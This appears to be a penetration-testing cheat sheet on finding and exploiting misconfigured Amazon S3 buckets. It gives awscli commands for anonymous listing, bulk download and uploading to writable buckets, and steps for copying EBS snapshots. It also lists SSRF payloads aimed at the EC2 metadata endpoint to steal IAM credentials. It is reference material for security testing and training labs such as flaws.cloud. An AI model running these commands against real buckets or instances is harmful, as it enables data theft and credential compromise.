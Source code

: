 +++
title = "Amazon AWS S3 Buckets"
date = "2022-10-16"
description = "Finding, accessing and exploiting Amazon S3 buckets. Where to look, how to look and ways to leverage features of Amazon S3 buckets to maximize your impac on you target."
+++
# Amazon Bucket S3 AWS

## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```bash
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
https://buckets.grayhatwarfare.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```bash
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```bash
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```bash
$ aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",


$ aws --profile profile_name ec2 describe-snapshots
$ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
$ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
$ chmod 400 YOUR_KEY.pem
$ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
$ lsblk
$ sudo file -s /dev/xvda1
$ sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential - 0dayallday.org](https://www.0dayallday.org/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)
* [A Technical Analysis of the Capital One Hack - CloudSploit - Aug 2 2019](https://blog.cloudsploit.com/a-technical-analysis-of-the-capital-one-hack-a9b43d7c8aea?gi=8bb65b77c2cf)
